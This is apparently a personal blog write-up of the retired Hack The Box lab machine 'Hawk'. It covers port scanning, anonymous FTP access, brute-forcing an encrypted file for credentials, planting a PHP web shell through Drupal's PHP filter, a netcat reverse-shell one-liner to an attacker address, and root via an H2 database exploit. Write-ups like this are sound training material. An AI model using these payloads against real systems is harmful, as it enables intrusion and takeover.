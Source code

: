```yaml
---
title: Hawk Hackthebox Writeup
date: 2021-03-01 11:00:00 +0530
categories: [Hackthebox, Retired]
tags: [linux,h2 exploit,drupal,ftp anonymous,php filter module]     # TAG names should always be lowercase
image: /assets/img/hawk-hackthebox/hawk-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Hawk:~$


Column | Details
------------ | -------------
Name | Hawk
IP | 10.10.10.102
Points | 30
Os | Linux
Difficult | Medium
Creator | [mrh4sh](https://www.hackthebox.eu/home/users/profile/2570)
Out on | 14th July 2018

# Summary:~$

* Discovering the new host and scanning for open ports.
* Decrypting a file found by logging into `ftp` using *anonymous*:*anonymous*.
* Logging into the `drupal` cms.
* Getting reverse shell using the `php filter` module.
* Escalating privileges using `H2` exploit.

# Starting:~$

I have used **nmapAutomator** , which keeps the scanning fast and reduces effort.*(Not recommended in real life scenarios).* 

Download link: [nmapAutomator](https://github.com/21y4d/nmapAutomator)

___
![](/assets/img/hawk-hackthebox/nmap-automator-1.png)

Full port scan using `nmap`: *nmap -p- -T4 -Pn -sV 10.10.10.102*

___
![](/assets/img/hawk-hackthebox/nmap-scan-1.png)

Let's check `Port 80`.

___
![](/assets/img/hawk-hackthebox/port-80-2.png)

It's a `drupal` webiste, let's check **/robots.txt**.

___
![](/assets/img/hawk-hackthebox/robots-txt-3.png)

I further accessed `http://10.10.10.102/CHANGELOG.txt` and found *drupal version* i.e. `Drupal 7.58`.

___
![](/assets/img/hawk-hackthebox/version-exposed-drupal-4.png)

I found an [exploit](https://www.exploit-db.com/exploits/44542) when googled the version vulnerabilities.

___
![](/assets/img/hawk-hackthebox/drupalexploitdb-5.png)

But it requires authentication of the user for that, let's check default credentials first on the login page. It didn't work.

`Port 21` is also open, let's try to login anonymously i.e. `anonymous`:`anonymous`.

___
![](/assets/img/hawk-hackthebox/ftp-anonymous-login-6.png)

We found a file in the directory, let's downloading it using the `get` command.

___
![](/assets/img/hawk-hackthebox/got-afile-7.png)

I opened the file and it looked like this:

___
![](/assets/img/hawk-hackthebox/opening-the-file-8.png)

As we know it's encrypted I ran `file` command on it to check for more details.

___
![](/assets/img/hawk-hackthebox/file-category-8.png)

It's `openssl` and `base64` encrypted.

Let's decode it with base64 first.

**Command**: `cat .drupal.txt.enc | base64 --decode > drupal.txt.enc.decoded`

Now let's bruteforce the openssl file.

**Command**: *sudo apt-get install bruteforce-salted-openssl*

**Command**: *bruteforce-salted-openssl -f /usr/share/wordlists/rockyou.txt drupal.txt.enc.decoded*

We were unable to find the password but it showed that `sha` is `256`.

___
![](/assets/img/hawk-hackthebox/ssl-brute-force-error-9.png)

Improvising the **command**: *bruteforce-salted-openssl -d sha256 -f /usr/share/wordlists/rockyou.txt drupal.txt.enc.decoded*

We found the password as `friends`.

___
![](/assets/img/hawk-hackthebox/got-password-10.png)

Decoding the file

**Command**: *openssl aes-256-cbc -d -in drupal.txt.enc.decoded -out drupal.txt*

The digest is `SHA256` and cipher used is `AES-256-CBC` because that’s the default cipher that the program uses if it’s not specified

![](/assets/img/hawk-hackthebox/decoding-file-11.png)

We got a username and password as `Daniel`:`PencilKeyboardScanner123`.

___
![](/assets/img/hawk-hackthebox/got-new-username-password-12.png)

Let's try to login on the website using the above found credentials.

___
![](/assets/img/hawk-hackthebox/error-screenshot-13.png)

It threw me an error saying `invalid` credentials.

Let's try `admin`:`PencilKeyboardScanner123`. Successfully logged in.

___
![](/assets/img/hawk-hackthebox/loggedin-14.png)

Now in the `module` section turn on the `PHP filter`.

___
![](/assets/img/hawk-hackthebox/turn-on-php-filter-15.png)

Add a new content and add the following in the body --> `<?php system($_GET['cmd']); ?>`. Make sure to save the file with php.

___
![](/assets/img/hawk-hackthebox/add-php-content-16.png)

Accessing *http://10.10.10.102/node/1?cmd=whoami*, we got `www-data`.

___
![](/assets/img/hawk-hackthebox/command-execution-17.png)

Now let's go for the reverse shell, I used BurpSuite for it.

Check this for the [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#ncat)

**Payload Used**: *rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X 4242 >/tmp/f*

___
![](/assets/img/hawk-hackthebox/got-shell-18.png)

Got `User` Flag.

Let's send `LinEnum.sh` for escalating privileges.

**Hosting Command**: *python3 -m http.server 8081*

**wget command**: *wget http://10.10.X.X:8081/LinEnum.sh*

Ran LinEnum.sh after giving executing permissions using *chmod +x LinEnum.sh* and found this

___
![](/assets/img/hawk-hackthebox/linenum-result-19.png)

As we know `Port 8082` is running **H2 Database**, and it only allows connections locally.

___
![](/assets/img/hawk-hackthebox/port-8082-20.png)

I search for some exploits and found [this](https://www.exploit-db.com/exploits/45506)

Downloading the exploit to our victim machine using wget, and executing it we got `Root`.

____
![](/assets/img/hawk-hackthebox/got-root-21.png)

